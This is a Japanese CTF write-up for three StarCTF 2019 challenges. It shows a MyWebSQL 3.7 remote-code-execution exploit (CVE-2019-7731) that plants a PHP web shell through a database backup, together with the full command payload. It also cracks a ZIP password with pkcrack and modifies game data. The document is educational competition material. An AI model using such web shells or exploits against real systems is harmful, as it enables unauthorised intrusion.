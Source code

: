 ```yaml
---
layout: post
title: StarCTF 2019 の write-up
categories: [ctf]
date: 2019-04-29 23:59:00 +0900
---
```


4 月 27 日から 4 月 29 日にかけて開催された [*CTF 2019](http://starctf.xctf.org.cn) に、チーム zer0pts で参加しました。最終的にチームで 2570 点を獲得し、順位は得点 334 チーム中 36 位でした。うち、私は 3 問を解いて 775 点を入れました。

他のメンバーの write-up はこちら。

- [*CTF (StarCTF) 2019 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2019/04/29/122753)

以下、私が解いた問題の write-up です。

## Web
### mywebsql (210)
> (URL)

与えられた URL にアクセスすると、[MyWebSQL](https://github.com/Samnan/MyWebSQL) というブラウザでデータベースを操作できるツールのログイン画面が表示されました。インストールされているバージョンは `Version 3.7` と、[最新版の 3.8](https://github.com/Samnan/MyWebSQL/blob/e22cf1eef96f9a3d9d95bbb2654ebc2465a93bcf/Docs/changelog.txt#L1-L3) ではないようです。

なんとかログインできないか適当なユーザ名とパスワードを試していると、`admin` / `admin` を入力したときにログインすることができました。データベースにフラグがあるのかと思いテーブル一覧を見てみましたが、他の参加者が作成したテーブルしかありません。

MyWebSQL 3.7 になにか脆弱性がないか調べてみると、[CVE-2019-7731](https://nvd.nist.gov/vuln/detail/CVE-2019-7731) という任意のコードが実行できる脆弱性が見つかりました。公開されている [PoC](https://github.com/eddietcc/CVEnotes/blob/91168c54abc107eb71ec0fbdd3a5d9e52b012410/MyWebSQL/RCE/readme.md) を参考に、まず `TEXT` 型のカラムを持つ `neko` というテーブルを作成、`<?php system($_GET['cmd']) ?>` というレコードを追加し、`neko.php` にデータベースのバックアップを出力すると、`/backups/neko.php?cmd=ls` で OS コマンドを実行することができました。

`ls -la /` で `/readflag` という実行ファイルを経由して `/flag` を読み出せることができるとわかります。あとは `/readflag` を実行すると要求される CAPTCHA (与えられた計算式を評価した結果を返す) をなんとかすればフラグが得られます。

`/backups/neko.php?cmd=php%20-r%20%27$h=proc_open("/readflag",[["pipe","r"],["pipe","w"],["pipe","w"]],$p);%20fgets($p[1]);%20$r=fgets($p[1]);%20echo%20$r;%20fwrite($p[0],eval("return%20".$r.";")."\n");%20$r=fgets($p[1]);%20echo%20$r;%20echo%20fgets($p[1]);%20echo%20fgets($p[2]);%27` にアクセスするとフラグが得られました。

```
*CTF{h4E9PKLkr6HTO3JcRglVdYaBSA0eDU8y}
```

## Misc
### She (243)
> Enjoy the game!
> 添付ファイル: She.zip

与えられた ZIP ファイルを展開すると、`Game.exe` `RGSS103J.dll` `Game.ini` 等のファイルが出てきました。どうやら [RPG ツクール XP](https://tkool.jp/products/rpgxp/index) で作られたゲームのようです。

とりあえず `Game.exe` を実行してみると、左下の民家にいる敵を倒すとフラグが得られると言われました。

![2019-04-29_1.png](../images/2019-04-29_1.png)

…が、この鶏は異常な強さで傷一つ与えることができません ([動画 1](https://youtu.be/erX_3DmVexo))。

![2019-04-29_2.png](../images/2019-04-29_2.png)

敵のデータを改変できないか調べていると、[aoitaku/rxdata-transform](https://github.com/aoitaku/rxdata-transform) という `.rxdata` (ゲームの各種データが格納されている形式) と JSON の相互変換ができるツールが見つかりました。

まず `bundle exec ruby rxdata_converter.rb export She` で JSON に変換します。敵のデータが格納されている `Enemies.json` を開き、鶏の名前である `Julia` を探すと以下のデータが見つかりました。

```json
︙
    "atk":999,
    "battler_hue":220,
    "battler_name":"074-Bird04",
︙
    "exp":2,
    "gold":16,
    "id":1,
    "int":141,
    "item_id":0,
    "maxhp":9999,
    "maxsp":9999,
    "mdef":888,
    "name":"Julia",
    "pdef":999,
︙
```

体力や攻撃力が凄まじい値になっています。これらをすべて `0` に変えてしまいましょう。`bundle exec ruby rxdata_converter.rb import She` で `.rxdata` 形式に変換し、`Enemies.rxdata` を差し替えると、何も育成をしていない初期状態でも楽に倒すことができるようになりました ([動画 2](https://youtu.be/9-lh8lEbRZ0))。

ドアの先には鉄格子と宝箱のある部屋がありました。

![2019-04-29_3.png](../images/2019-04-29_3.png)

鉄格子は正しい順番で調べることで開き、その先にある宝箱を調べることでフラグの一部が手に入れられるようです。

ここで [ptr-yudai](https://twitter.com/ptrYudai) さんによって `Game.exe debug` のようにコマンドライン引数を与えることでデバッグモードに入れることがわかりました。また、宝箱の中には数字が 1 文字ずつ入っており、左から `213465978` の順で並んでいることがわかりました。

総当たりをしていくと、`371269` の順番 (3 と 7 は入れ替えても OK) で調べることでさらに次の部屋に進めることができました。

![2019-04-29_4.png](../images/2019-04-29_4.png)

次の部屋に配置されている鏡を調べると、以下のようなメッセージが表示されました。

> Combine those numbers you found in the chest 
> and submit it with MD5 encrypt!

[ptr-yudai](https://twitter.com/ptrYudai) さんが `d6f3fdffbcb462607878af65d059f274` (`213697`) を試すと通りました。

```
*CTF{d6f3fdffbcb462607878af65d059f274}
```

### otaku (322)
> One day, you and your otaku friend went to the comic expo together and he had a car accident right beside you. Before he died, he gave you a USB hard disk which contained this zip. Please find out his last wish.
> 添付ファイル: 82598457d27f4149a96e2cc38f49c873.zip

与えられたファイルを `binwalk -e 82598457d27f4149a96e2cc38f49c873.zip` で展開すると、`Anime_Intro.doc` と `flag.zip` という 2 つのファイルが出てきました。

`flag.zip` は `flag.png` と `last words.txt` を含む ZIP ファイルですが、どうやらパスワードがかかっているようです。また、以下のようなコメントが GBK で埋め込まれていることが [ptr-yudai](https://twitter.com/ptrYudai) さんによってわかっていました。

> 压缩软件：winrar版本 5.70 beta 2
> 配置：zip压缩文件（低压缩率）
> 压缩方式：标准

Winrar 5.70 で圧縮されたようです。

`Anime_Intro.doc` は一見普通の Word のドキュメントファイルですが、[ptr-yudai](https://twitter.com/ptrYudai) さんによって以下のようなテキストが埋め込まれている (`<w:vanish>` で非表示にされている) ことがわかっていました。

> Hello everyone, I am Gilbert. Everyone thought that I was killed, but actually I survived. Now that I have no cash with me and I’m trapped in another country. I can't contact Violet now. She must be desperate to see me and I don't want her to cry for me. I need to pay 300 for the train, and 88 for the meal. Cash or battlenet point are both accepted. I don't play the Hearthstone, and I don't even know what is Rastakhan's Rumble.

これを GBK で保存し、Winrar 5.70 で圧縮します。pkcrack で既知平文攻撃を試してみると、`flag.zip` のパスワードが `My_waifu` であると分かりました。

```
$ pkcrack -C ./flag.zip -c "last words.txt" -p last_words_gbk.txt -P ./last_words_gbk.zip
Files read. Starting stage 1 on Sun Apr 28 22:02:41 2019
Generating 1st generation of possible key2_283 values...done.
Found 4194304 possible key2-values.
Now we're trying to reduce these...
Done. Left with 29381 possible Values. bestOffset is 24.
Stage 1 completed. Starting stage 2 on Sun Apr 28 22:03:16 2019
Ta-daaaaa! key0=106d3a93, key1=6c0cc013, key2=338e8d6f
︙
Stage 2 completed. Starting password search on Sun Apr 28 22:32:50 2019
Key: 4d 79 5f 77 61 69 66 75
Or as a string: 'My_waifu' (without the enclosing single quotes)
Key: 4d 79 5f 77 61 69 66 75
Or as a string: 'My_waifu' (without the enclosing single quotes)
Finished on Sun Apr 28 22:32:50 2019
```

`flag.zip` を展開して出てきた `flag.png` の RGB の LSB をとるとフラグが得られました。

```
*ctf{vI0l3t_Ev3rg@RdeN}
```